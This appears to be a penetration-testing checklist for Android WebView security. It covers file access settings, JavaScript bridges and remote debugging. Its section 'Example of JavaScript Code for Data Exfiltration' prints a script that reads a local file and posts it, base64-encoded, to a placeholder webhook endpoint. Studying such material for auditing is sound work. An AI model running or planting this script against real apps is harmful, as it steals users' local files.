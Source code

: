 # WebViews

## File Access in WebViews
- By default, WebViews permit file access. This functionality is controlled by the `setAllowFileAccess()` method, available since Android API level 3 (Cupcake 1.5). Applications with the `android.permission.READ_EXTERNAL_STORAGE` permission can read files from external storage using a file URL scheme (file://path/to/file).

- [ ] **Check for `loadURL()` Function**
  - [ ] **Check for `WebView.getSettings().setJavaScriptEnabled(true)`**: This setting allows the execution of JavaScript code within the WebView. WebViews can handle the intent scheme, potentially leading to exploits if not carefully managed. An example vulnerability involved an exposed WebView parameter "url" that could be exploited to execute cross-site scripting (XSS) attacks.

  > [!NOTE] 
  > This setting alone isn't always sufficient to pose a high security risk. Additional settings need to be checked, such as the following:
- **Deprecated Features: Universal and File Access From URLs**
  - [ ] **Check for `WebView.setAllowUniversalAccessFromFileURLs(true)`**: This setting removes all same-origin policy restrictions and allows the WebView to make requests from file URLs to the web. This can potentially allow an attacker to read local files using JavaScript and send them to an attacker-controlled domain.
  - [ ] **Check for `WebView.setAllowFileAccessFromFileURLs(true)`**: File Access From File URLs > This feature, also deprecated, controlled access to content from other file scheme URLs. Like universal access, its default is disabled for enhanced security.

- **WebViewAssetLoader (Mitigation):**
  - The WebViewAssetLoader class is the modern approach for loading local files. It uses http(s) URLs for accessing local assets and resources, aligning with the Same-Origin policy, thus facilitating CORS management.

- **Javascript Bridge**
  - A feature is provided by Android that enables JavaScript in a WebView to invoke native Android app functions. This is achieved by utilizing the `addJavascriptInterface` method, which integrates JavaScript with native Android functionalities, termed as a WebView JavaScript bridge. Caution is advised as this method allows all pages within the WebView to access the registered JavaScript Interface object, posing a security risk if sensitive information is exposed through these interfaces.

    - Extreme caution is required for apps targeting Android versions below 4.2 due to a vulnerability allowing remote code execution through malicious JavaScript, exploiting reflection.
  - [ ] **Check for `WebView.addJavascriptInterface("OBJECT_OF_JAVA_CLASS", "OBJECT_OF_JAVASCRIPT_CLASS")`**: This setting creates an interface between JavaScript in the WebView and Java code defined in the interface. From the JavaScript object, public functions from the Java object class can be called.

## Example of JavaScript Code for Data Exfiltration

```javascript
<script>
var xhr = new XMLHttpRequest();
var xhr2 = new XMLHttpRequest();

xhr.onreadystatechange = () => {
    if (xhr.readyState === 4) {
        xhr2.open("POST", "https://webhook.site/your-endpoint");
        xhr2.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
        xhr2.send('data=' + btoa(xhr.responseText));
    }
};

xhr.open("GET", "file:///path/to/file", true);
xhr.send();
</script>
```
- [ ] Check for Remote Debugging with `WebView.setWebContentsDebuggingEnabled(true);`
    - If enabled, anyone on the same local network can see , control the WebView and execute JavaScript code.

    - You can test WebView remote debugging using chrome://inspect/#devices in Google Chrome.

## Resources
- [Web view Check list](https://blog.oversecured.com/Android-security-checklist-webview/)
- [HackTricks - WebView](https://book.hacktricks.xyz/mobile-pentesting/android-app-pentesting/webview-attacks)